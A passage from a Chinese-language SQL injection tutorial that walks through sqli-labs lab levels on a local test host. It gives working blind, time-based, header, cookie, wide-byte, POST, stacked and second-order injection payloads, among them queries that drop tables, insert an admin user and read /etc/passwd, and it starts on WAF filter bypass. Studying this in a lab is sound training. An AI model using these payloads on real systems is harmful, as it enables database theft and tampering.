第一个表是emails，ascii码中e是101，那么上面的等于101页面回显正常。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+

 

如何猜测第二张表的第二个字母？

第二个表是referers，ascii码中e是101，那么上面的等于101页面回显正常。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),2,1))=101--+

 

修改limit 1,1 来控制第几个表，修改后面的2,1来控制第几个字符。

#### 3.3.5.8.**猜测数据库列的数量**

在users中存在id、username、password字段，0，1是第一个所以是等于2。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2--+

 

#### 3.3.5.9.**猜测数据库列名**

如何猜测第二列第一个字母？

在users中第二列是username所以第一个就是u，也就是117。

最后面的1，1），1，1 第一个1控制第几列，从0开始。第三个1控制字段第几个字母。从1开始。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117--+

 

如何猜测第三列第三个字母？

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select%20column_name from information_schema.columns where table_schema='security' and table_name='users' limit 2,1),3,1))=115--+

 

#### 3.3.5.10.**猜测某字段数据的长度**

判断username中第一行数据的长度，username第一行是dumb是4位，所以返回页面的正常的。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select username from security.users limit 0,1))=4--+

 

判断password中第二行数据的长度，password第二行是admin是5位，所以返回页面的正常的。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select password from security.users limit 1,1))=5--+

 

#### 3.3.5.11.**猜测某字段数据的名**

判断username中第一行第一个字母。

Username中第一个字母是D，所以是68，当等于68的时候页面正常。

最后面的0，1），1，1 第一个1控制第几行，从0开始，第三个1控制字段第几个字母。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select username from security.users limit 0,1),1,1))=68--+

 

判断password中第二行第二个字母。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select password from security.users limit 1,1),2,1))=100--+

 

## 3.4.**基于时间盲注**

### 3.4.1.**时间盲注基本概念**

#### 3.4.1.1.**时间盲注的简介**

由于服务器端拼接了SQL语句，且正确和错误存在同样的回显，即是错误信息被过滤，可以通过页面响应时间进行按位判断数据。

#### 3.4.1.2.**时间盲注的原理**

时间盲注就是通过拼接if语句，构造我们判断的条件，根据条件的结果返回sleep()函数，使得页面的响应时间比正常的响应时间长，但是这个会由于网络情况造成误判，所以在测试前需要测试正常访问页面的时长。

### 3.4.2.**时间盲注基本步骤**

其实这里的基本步骤和布尔盲注都差不多，只不过是通过页面的响应时间来进行判断。

### 3.4.3.**常用盲注函数**

#### 3.4.3.1.**if()比较函数**

语法：if(cond，ture_result，False_result)

第一个参数cond为判断条件。

第二个参数ture_result为真时的返回结果。

第三个参数false_result为假时的返回结果。

如：?id=1 and 1=if (ascii(substr(user(),1,1))=97,1,2)

如果user 的第一位是‘a’则将返回1，否则就返回2。然而，如果返回的是2，则会使and后的条件不成立，导致返回错误页面。这时我们可以根据页面的长度进行判定，从而达到盲注的效果。

#### 3.4.3.2.**sleep()睡眠函数**

语法：sleep(N)

第一个参数N是睡眠的时间

如：if (ascii(substr(user(),1,1))=114,sleep(5),2)

这样的话，如果user的第一位是‘r'，则页面返回将延迟5秒。这里需要注意的是，这5秒是在服务器端的数据库中延迟的，实际情况可能会由于网络环境等因素延迟更长时间

如果存在没写到的函数，但是使用了，可以自行搜索。

### 3.4.4.**案例sqli-labs-less-8 字符型**

#### 3.4.4.1.**判断注入点**

?id=1 and 1=1--+ 正常

?id=1 and 1=2--+ 正常

到这里其实基本上可以判断不是数字型了，那么就需要按照我们上面提到的干扰字符进行测试，可以按照上述的字段判断一条一条测试。

?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and 1=2--+

 

#### 3.4.4.2.**判断是否存在时间盲注**

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and sleep(5)--+

 

#### 3.4.4.3.**猜测数据库名长度**

其实时间盲注也就是延迟盲注其实就是在布尔的时候加入一个If判断程序。主体语句上和布尔盲注大差不多。Sleep (5),1中若前面的判断是正确的则返回页面的时候延迟5秒钟，若不正确则秒回。当然也受网络影响，这里是靶机所以影响比较小。

也可以把sleep (5),1调整为sleep (1),5意思就是正确了秒回，不正确则延迟5秒返回。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length(database())=8,sleep(5),1)--+

 

#### 3.4.4.4.**猜测数据库名**

猜测数据库名第一位

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+

 

猜测数据库第二位

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr(database(),2,1))=101,sleep(5),1)--+

 

#### 3.4.4.5.**猜测数据库表的数量**

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if((select count(table_name) from information_schema.tables where table_schema = database())=4,sleep(5),1)--+

 

#### 3.4.4.6.**猜测数据库表的长度**

猜测第二张表的长度，若这里分不清哪里判断第二张表的输出，可以去参考布尔盲注中的案例解释。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=8,sleep(5),1)--+

 

#### 3.4.4.7.**猜测数据库表名**

猜测第一张表的第一个字，需要猜测其他表中其他字，可以修改limit进行控制。

当然database()也可以替换为'security'。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(5),1)--+

 

#### 3.4.4.8.**猜测数据库列的数量**

Users中存在3列。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2,sleep(5),1)--+

 

#### 3.4.4.9.**猜测数据库列名**

猜测users表中第二列第一个字母这里需要注意的是上面获取到的是从0开始等于2，本质上是3个表，但是ID列我们用不到，从第二个开始。剩下的就需要自己调整参数进行一个一个测试。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117,sleep(5),1)--+

 

#### 3.4.4.10.**猜测某字段数据的长度**

这里可以顺带测一下users表中存在多少个用户，我这里我后期添加了一个，所以是15个用户。注意是从0开始计算。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if((select count(username) from users)=14,sleep(5),1)--+

 

猜测users表中username第一行长度

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select username from security.users limit 0,1))=4,sleep(5),1)--+

 

猜测users表中password第二行长度

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select password from security.users limit 1,1))=5,sleep(5),1)--+

 

#### 3.4.4.11.**猜测某字段数据的名**

猜测users表中username第一行第一个字母

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select username from security.users limit 0,1),1,1))=68,sleep(5),1)--+

 

猜测users表中的password第二行第二个字母

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select password from security.users limit 1,1),2,1))=100,sleep(5),1)--+

 

sleep(5),1，是错误的时候立即返回，若正确的时候延迟5秒返回。

1,sleep(5)，是正确的时候立即返回，若错误的时候延迟5秒返回。

 

## 3.5.**HTTP头部注入**

### 3.5.1.**HTTP头部注入基本概念**

#### 3.5.1.1.**HTTP头部注入原理**

后台开发人员为了验证客户端HTTP Header（比如常用的Cookie验证等）或者通过HTTP Header头信息获取客户端的一些信息（例如：User-Agent、Accept字段等），会对客户端HTTP Header 进行获取并使用SQL语句进行处理，如果此时没有足够的安全考虑，就可能导致基于HTTP Header的注入漏洞

#### 3.5.1.2.**常见HTTP头部注入类型**

Cookie：网站为了辨别用户身份、进行session跟踪而存储在用户本地终端上的数据。

User-agent：使服务器能够识别客户端使用的操作系统，浏览器版本等。

Referer：浏览器向web服务器表名自己是从哪个页面过来的。

X-forwarded-for：简称xff头，它代表客户端（即http的请求端）真实IP。

#### 3.5.1.3.**头部注入的前提**

能够对请求头消息进行修改，修改请求头信息能够带入数据库执行，数据库没有对输入的请求头做过滤。

### 3.5.2.案例sqli-labs-less-5 字符型

#### 3.5.2.1.**判断注入点**

通过页面登录发现有返回的user-agent信息，可以通过抓包对其进行注入测试。

 

#### 3.5.2.2.**判断是否存在报错**

通过抓包后在user-agent的值后面添加干扰字符进行测试。发现能够出现报错的信息。

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0'

 

#### 3.5.2.3.**使用报错语句进行测试**

User-Agent: 'and updatexml(1,0x7e,3)and '1'='1

 

#### 3.5.2.4.**确认数据库名**

User-Agent: 'and updatexml(1,concat(0x7e,database()),3) and '

#### 3.5.2.5.**确认数据库表名**

User-Agent: 'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' )),3) and '

 

 

#### 3.5.2.6.**确认数据库列名**

User-Agent: 'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' )),3) and '

 

#### 3.5.2.7.**确认数据库字段名**

User-Agent: 'and updatexml(1,concat(0x7e,(select username from users limit 0,1 )),3) and '

 

主要注意的是测试的时候里面有使用limit进行分页，有没有进行分页的，如果对分页存在疑问可以去报错注入中查看解释，若解释的不全，请善用百度。

### 3.5.3.案例sql-labs-less-19 referer

#### 3.5.3.1.**判断注入点**

通过页面登录发现有返回的referer信息，可以通过抓包对其进行注入测试。

 

#### 3.5.3.2.**判断是否存在报错**

通过抓包后在referer的值后面添加干扰字符进行测试。发现能够出现报错的信息。

Referer: http://192.168.10.150/sqlilabs/Less-19/'

 

#### 3.5.3.3.**使用报错语句进行测试**

Referer: 'and updatexml(1,0x7e,3)and '1'='1

 

#### 3.5.3.4.**确认数据库名**

Referer: 'and updatexml(1,concat(0x7e,database()),3) and '

 

后续步骤和User-Agent的测试流程一样。

### 3.5.4.**案例**sqli-abs-less-20 cookie

#### 3.5.4.1.**判断注入点**

通过界面发现存在cookie值。

 

#### 3.5.4.2.**判断是否存在报错**

通过抓包后在Cookie的值后面添加干扰字符进行测试。发现能够出现报错的信息。

Cookie: uname=admin' and updatexml(1,0x7e,3)#

 

 

#### 3.5.4.3.**确认数据库名**

Cookie: uname=admin' and updatexml(1,concat(0x7e,database()),3)#

 

 

后续步骤和User-Agent的测试流程一样。

### 3.5.5.**案例**sql-labs-less-21 cookie编码

#### 3.5.5.1.**判断注入点**

通过页面发现这里的cookie被加密了。

 

#### 3.5.5.2.**判断是否存在报错**

通过抓包后在Cookie的值后面添加干扰字符进行测试。发现能够出现报错的信息。

Cookie: uname=YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsMHg3ZSwzKSM=

 

#### 3.5.5.3.**如何编码**

首先在cookie处输入相关的测试语句，然后选中相关的测试语句对其进行转换选择》base64》base64编码。

例如：

编码前：admin') and updatexml(1,0x7e,3)#

解码后：YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsMHg3ZSwzKSM=

 

#### 3.5.5.4.**确认数据库名**

Cookie: uname=YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSksMykj

 

 

后续步骤和普通的cookie的测试流程一样，当然是需要编码的，不编码就无法解析。

 

## 3.6.**6.宽字节注入**

### 3.6.1.**宽字节注入基本概念**

#### 3.6.1.1.**宽字节注入的简介**

宽字节注入指的是 mysql 数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为'，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是'運'，从而使单引号闭合（逃逸），进行注入攻击。

#### 3.6.1.2.**宽字节注入的原理**

mysql在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ascii码要大于128，才到汉字的范围）php的魔术引号(magic_quotes_gpc)开启，会在特殊字符（比如 ' , " , \ , null）前面加 \ ，导致闭合失败。

PHP5.4.0及其之后PHP版本取消了魔术引号，之后转义都需要加上addslashes函数 (stripslashes删除反斜杠\)

### 3.6.2.**注入思路**

%df 吃掉 \ 具体的原因是 urlencode(‘\) = %5c%27，我们在%5c%27 前面添加%df，形成%df%5c%27，而上面提到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，此时%df%5c 就是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。 

将 \’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 的情况，后面的%5c 会被前面的%5c 给注释掉。这也是bypass的一种方法。

### 3.6.3.**案例**sql-labs-less-32 宽字节

#### 3.6.3.1.**判断注入点**

?id=1 and 1=2 正常

到这里就可以判断不是数值型注入。

?id=1' and 1=2 正常

........一直都是正常的？

通过提示发现下面的输出的内容出现了反斜杠进行了转义，同时还会将查询的字符转化为16进制输出，这里就可以想到使用宽字节注入进行尝试。

宽字节的格式是在地址后先加一个%df，再加单引号，因为反斜杠的编码是%5c，而在GBK编码中，%df%5c是繁体字“連”，所以这时，单引号成功逃逸，报出MySQL数据库的错误。

URL:http://192.168.10.150/sqlilabs/Less-32/?id=1%df' and 1=2--+

 

#### 3.6.3.2.**判断字段数字**

下面就是使用联合查询进行注入。

URL：http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' order by 4--+

 

#### 3.6.3.3.**判断显示位**

URL:http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' union select 1,2,3--+

 

#### 3.6.3.4.**确定数据库名**

URL:http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' union select 1,database(),3--+

 

也可以使用其他的方式进行注入，例如结合报错。

## 3.7.**post注入**

### 3.7.1.**post注入基本概念**

#### 3.7.1.1.**post注入原理**

数据从客户端提交到服务器端，例如我们在登录过程中，输入用户名和密码，用户名和密码以表单的形式提交，提交到服务器后服务器再进行验证。这就是一次post的过程的。

#### 3.7.1.2.**post注入前提**

用户能够控制输入，原本程序要执行的代码，拼接了用户输入的数据。

#### 3.7.1.3.**post注入高危点**

登录框、查询框、等各种和数据库有交互的框。

### 3.7.2.**post注入思路**

在 post 过程中，我们输入的用户名和密码最后在后台处理的过程中依旧会形成前面所见到的 sql 语句，那么我们是否可以像 get 型的一样构造我们想要的 payload 呢？

### 3.7.3.**案例**sql-labs-less-11 post

#### 3.7.3.1.**判断注入点**

这里的判断注入点就不能从URL上进行测试了，我们上面也提到了，post的注入点在登录框、查询框等...

输入：用户名：admin' and 1=1#

密码：随便输入         登录成功

 

当然这里也是需要使用其他的干扰字符测试出来的。

#### 3.7.3.2.**判断字段数**

这里也是可以使用联合查询进行注入。

uname=admin' order by 3#&passwd=sdasda&submit=Submit

 

#### 3.7.3.3.**判断显示位**

这里需要使前面出现错误就需要让uname=数据库中没有的用户名，因为在数据库中是没有这个用户的所以就产生错误。

uname=-admin' union select 1,2#&passwd=sdasda&submit=Submit

 

#### 3.7.3.4.**确定数据库名**

uname=-admin' union select database(),2#&passwd=sdasda&submit=Submit

 

当然这里有时候用不了联合查询，可以使用报错、布尔等方式进行注入。

## 3.8.**堆叠注入**

### 3.8.1.**堆叠注入基本概念**

#### 3.8.1.1.**堆叠注入定义**

Stacked injections(堆叠注入)从名词的含义就可以看到应该是一堆 sql 语句(多条)一起执行。而在真实的运用中也是这样的, 我们知道在 mysql 中, 主要是命令行中, 每一条语句结尾加; 表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做 stacked injection。

#### 3.8.1.2.**堆叠注入原理**

在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为： Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

#### 3.8.1.3.**堆叠注入局限性**

堆叠注入并不是在每种情况下都能使用的。大多数时候，因为API或数据库引擎的不支持，堆叠注入都无法实现。

#### 3.8.1.4.**堆叠注入前提**

目标存在sql注入漏洞，目标未对"；"号进行过滤，目标中间层查询数据库信息时可同时执行多条sql语句

### 3.8.2.**堆叠注入攻击语句**

新建一个表X：select * from users;create table X like users;

删除创建的X表：select * from users;drop table X;

查询数据：select * from users;select B,C,D;

加载文件：select * from users;select load_file('/etc/passwd');

增加一条数据：select * from users;insert into users values(18,'admin100','admin100');

### 3.8.3.**案例**sql-labs-less-38 堆叠

#### 3.8.3.1.**判断注入点**

?id=1 and 1=2 正常

?id=1' and 1=2 不正常

由此判断该闭合方式为单引号。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1' and 1=2--+

 

#### 3.8.3.2.**新建表**

新建一个test表。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; create table test like users;--+

 

验证：

URL：http://192.168.10.150/sqlilabs/Less-38/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

通过返回的数据明显能够看到多了一个test文件。

 

#### 3.8.3.3.**删除表**

删除test表。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; drop table test;--+

 

验证：

URL：http://192.168.10.150/sqlilabs/Less-38/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

通过返回数据明显是少了一个test表。

 

#### 3.8.3.4.**创建用户**

创建一个ID为16，用户名为：admin100，密码为：admin100的用户。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; insert into users values(16,'admin100','admin100');--+

 

验证：

通过输入ID号，获取我们创建的用户。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=16

 

## 3.9.**二阶注入**

### 3.9.1.**二阶注入基本概念**

#### 3.9.1.1.**二阶注入定义**

二阶排序注入也成为存储型的注入，就是将可能导致sql 注入的字符先存入到数据库中，当再次调用这个恶意构造的字符时，就可以出发sql注入。

#### 3.9.1.2.**二阶注入原理**

第一步：插入恶意数据

第一次进行数据库插入数据的时候，仅仅对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身包含恶意内容。

第二步：引用恶意数据

在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次需要进行查询的时候，直接从数据库中取出了恶意数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。

### 3.9.2.**二阶注入思路**

黑客通过构造数据的形式，在浏览器或者其他软件中提交 HTTP 数据报文请求到服务端进行处理，提交的数据报文请求中可能包含了黑客构造的 SQL 语句或者命令。 

服务端应用程序会将黑客提交的数据信息进行存储，通常是保存在数据库中，保存的数据信息的主要作用是为应用程序执行其他功能提供原始输入数据并对客户端请求做出响应。 

黑客向服务端发送第二个与第一次不相同的请求数据信息。 

服务端接收到黑客提交的第二个请求信息后，为了处理该请求，服务端会查询数据库中已经存储的数据信息并处理，从而导致黑客在第一次请求中构造的 SQL 语句或者命令在服务端环境中执行。 

服务端返回执行的处理结果数据信息，黑客可以通过返回的结果数据信息判断二次注入漏洞利用是否成功。

### 3.9.3.**案例**sql-labs-less-24 二阶

#### 3.9.3.1.**注册用户**

二次注入是因为对于存储到数据的数据没有经过过滤验证，且从数据库提取数据时候也没有进行过滤验证。

用户名：admin'#

密码：123456

 

#### 3.9.3.2.**登录用户**

登录我们刚刚创建的admin'#用户的账号。

用户名：admin'#

密码：123456

 

#### 3.9.3.3.**修改密码**

修改admin'#的密码。

用户名：admin'#

密码：123

 

返回信息：

 

#### 3.9.3.4.**登录admin账号**

登录admin账号，使用的密码是我们刚刚修改admin'#账号的密码。

用户名：admin

密码：123

 

 

我们所注册的admin'#账号，在注册的时候，后端对其进行了转义，'#被转义成其他数据，所以第一次的注入相当于是无效的。

但是在我们对其进行修改密码的时候数据库中执行的语句是修改admin的账号，后面的'#被注释掉了，所以数据库理解成是修改admin的账号。

# 4.**SQL注入过滤与绕过**

## 4.1.**WAF**

### 4.1.1.**WAF原理**

#### 4.1.1.1.**WAF原理**

WAF（web application firewall）web应用防火墙，它工作在OSI模型的第七层，也就是我们所熟知的应用层，对来自Web应用程序客户端的各类请求进行内容检测和验证，确保其安全性与合法性，对非法的请求予以实时阻断，为Web应用提供防护，也称作应用防火墙，是网络安全纵深防御体系里重要的一环。WAF属于检测型及纠正型防御控制措施。

#### 4.1.1.2.**WAF分类**

WAF分为非嵌入型WAF和嵌入型WAF，非嵌入型指的是硬WAF、云WAF、虚拟机WAF之类的；嵌入型指的是web容器模块类型WAF、代码层WAF。

#### 4.1.1.3.**WAF工作过程**

解析HTTP请求》匹配规则》防御动作》记录日志

## 4.2.**2.常见过滤**

### 4.2.1.**空格过滤绕过**

1) 两个空格代替一个
2) 用TAB代替空格
3) %a0=空格
4) 若括号没被过滤可以使用括号进行过滤
5) %0B绕过

### 4.2.2.**or或and过滤绕过**

1) 大小写变形Or，OR，oR
